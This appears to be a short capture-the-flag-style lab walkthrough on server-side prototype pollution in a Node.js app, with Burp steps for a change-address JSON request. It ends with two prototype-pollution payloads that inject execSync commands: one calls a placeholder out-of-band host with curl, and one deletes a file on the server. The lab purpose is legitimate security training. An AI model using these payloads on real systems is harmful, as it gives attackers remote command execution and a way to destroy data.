 
1. Log in and visit your account page. Submit the form for updating your billing and delivery address.
    
2. In Burp, go to the **Proxy > HTTP history** tab and find the `POST /my-account/change-address` request.
    
3. Observe that when you submit the form, the data from the fields is sent to the server as JSON. Notice that the server responds with a JSON object that appears to represent your user. This has been updated to reflect your new address information.
    
4. Send the request to Burp Repeater.

5. Add the following to the JSON data;

![](Pasted_image_20231210182452.png)

6. Run the job;

![](Pasted_image_20231210182529.png)

7. Add the following payload to update address;

![](Pasted_image_20231210184159.png)

8. Run the jobs again and verify the interaction;

![](Pasted_image_20231210184250.png)

9. Remove carlos data;

![](Pasted_image_20231210184351.png)


10. Run the jobs again and solve the lab;

![](Pasted_image_20231210184441.png)

```json

"__proto__": { "execArgv":[ "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')" ] }

```


```json
"__proto__": {
    "execArgv":[                       
            
         
 "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

